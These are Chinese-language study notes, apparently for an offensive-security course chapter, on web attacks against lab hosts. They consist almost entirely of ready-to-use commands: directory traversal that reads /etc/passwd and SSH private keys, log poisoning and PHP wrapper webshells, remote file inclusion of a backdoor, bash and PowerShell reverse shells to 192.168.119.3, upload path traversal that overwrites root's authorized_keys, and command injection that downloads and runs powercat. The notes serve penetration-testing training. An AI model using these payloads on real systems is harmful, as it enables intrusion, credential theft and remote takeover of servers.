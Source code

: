 本篇对应教材第9章，主要内容“目录穿越”、“文件包含”、“文件上传”和“命令执行”，记录使用工具和命令

## 9.1 目录穿越

### 9.1.2 目录穿越利用

```python
http://mountaindesserts.com/meteor/index.php?page=../../../../../../../../../etc/passwd
http://mountaindesserts.com/meteor/index.php?page=../../../../../../../../../home/offsec/.ssh/id_rsa
```

```python
curl http://mountaindesserts.com/meteor/index.php?page=../../../../../../../../../home/offsec/.ssh/id_rsa

ssh -i dt_key -p 2222 offsec@mountaindesserts.com
提示权限不对
chmod 400 dt_key
ssh -i dt_key -p 2222 offsec@mountaindesserts.com
```

‍

### 9.1.3 编码

url编码

```python
curl http://192.168.50.16/cgi-bin/../../../../etc/passwd
不成功，可以尝试url编码

curl http://192.168.50.16/cgi-bin/%2e%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd
```

## 9.2 文件包含

### 9.2.1 本地文件包含

```python
curl http://mountaindesserts.com/meteor/index.php?page=../../../../../../../../../var/log/apache2/access.log
```

User Agent加入webshell

```python
<?php echo system($_GET['cmd']); ?>
```

文件会写入

```python
../../../../../../../../../var/log/apache2/access.log
```

```python
curl http://mountaindesserts.com/meteor/index.php?page=../../../../../../../../../var/log/apache2/access.log&cmd=ls%20-la
```

反弹shell

```python
bash -c "bash -i >& /dev/tcp/192.168.119.3/4444 0>&1"
```

URL编码

```python
bash%20-c%20%22bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F192.168.119.3%2F4444%200%3E%261%22
```

### 9.2.2 PHP包装器

文件读取

```python
curl http://mountaindesserts.com/meteor/index.php?page=php://filter/convert.base64-encode/resource=admin.php
```

base64解码

```python
echo "PCFET0NUWVBFIGh……" | base64 -d
```

命令执行

```python
curl "http://mountaindesserts.com/meteor/index.php?page=data://text/plain,<?php%20echo%20system('ls');?>"
```

base64编码

```python
echo -n '<?php echo system($_GET["cmd"]);?>' | base64

curl "http://mountaindesserts.com/meteor/index.php?page=data://text/plain;base64,PD9waHAgZWNobyBzeXN0ZW0oJF9HRVRbImNtZCJdKTs/Pg==&cmd=ls"
```

### 9.2.3 远程文件包含

```python
/usr/share/webshells/php/simple-backdoor.php
python3 -m http.server 80
curl "http://mountaindesserts.com/meteor/index.php?page=http://192.168.119.3/simple-backdoor.php&cmd=ls"
```

## 9.3 文件上传

### 9.3.1 可执行文件

文件后缀

```python
.phps
.php7
.php
.phtml
.pHP
```

修改后缀上传

```python
/usr/share/webshells/php/simple-backdoor.pHP
```

windows下base64编码后命令执行

```python
pwsh
$Text = '$client = New-Object System.Net.Sockets.TCPClient("192.168.119.3",4444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()'
$Bytes = [System.Text.Encoding]::Unicode.GetBytes($Text)
$EncodedText =[Convert]::ToBase64String($Bytes)
$EncodedText
```

编码后使用webshell执行

```python
curl http://192.168.50.189/meteor/uploads/simple-backdoor.pHP?cmd=powershell%20-enc%20JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0
...
AYgB5AHQAZQAuAEwAZQBuAGcAdABoACkAOwAkAHMAdAByAGUAYQBtAC4ARgBsAHUAcwBoACgAKQB9ADsAJABjAGwAaQBlAG4AdAAuAEMAbABvAHMAZQAoACkA
```

### 9.3.2 不可执行文件

post上传，文件名目录穿越

```python
../../../../../../../test.txt
```

生成ssh秘钥

```python
ssh-keygen
fileup
cat fileup.pub > authorized_keys
```

文件名改为

```python
../../../../../../../root/.ssh/authorized_keys
```

上传后，ssh连接

```python
rm ~/.ssh/known_hosts
ssh -p 2222 -i fileup root@mountaindesserts.com
```

注意：fileup文件权限，600或者400

## 9.4 命令执行

### 9.4.1 命令注入

参数注入命令

```python
curl -X POST --data 'Archive=ipconfig' http://192.168.50.189:8000/archive
```

提示不可执行，尝试正常命令git

```python
curl -X POST --data 'Archive=git' http://192.168.50.189:8000/archive
curl -X POST --data 'Archive=git version' http://192.168.50.189:8000/archive
```

执行成功，使用%3B拼接命令

```python
curl -X POST --data 'Archive=git%3Bipconfig' http://192.168.50.189:8000/archive
```

判断当前shell是cmd还是powershell

```python
(dir 2>&1 *`|echo CMD);&<# rem #>echo PowerShell
```

url编码后

```python
curl -X POST --data 'Archive=git%3B(dir%202%3E%261%20*%60%7Cecho%20CMD)%3B%26%3C%23%20rem%20%23%3Eecho%20PowerShell' http://192.168.50.189:8000/archive
```

输出是PowerShell

执行成功，使用powercat获得反弹shell

```python
cp /usr/share/powershell-empire/empire/server/data/module_source/management/powercat.ps1 .
python3 -m http.server 80
nc -nvlp 4444
```

powershell执行

```python
IEX (New-Object System.Net.Webclient).DownloadString("http://192.168.119.3/powercat.ps1");powercat -c 192.168.119.3 -p 4444 -e powershell 
```

url编码

```python
curl -X POST --data 'Archive=git%3BIEX%20(New-Object%20System.Net.Webclient).DownloadString(%22http%3A%2F%2F192.168.119.3%2Fpowercat.ps1%22)%3Bpowercat%20-c%20192.168.119.3%20-p%204444%20-e%20powershell' http://192.168.50.189:8000/archive
```

更多更新资料（微信公众号：TopRedTeam）

![](./qrcode.jpg)
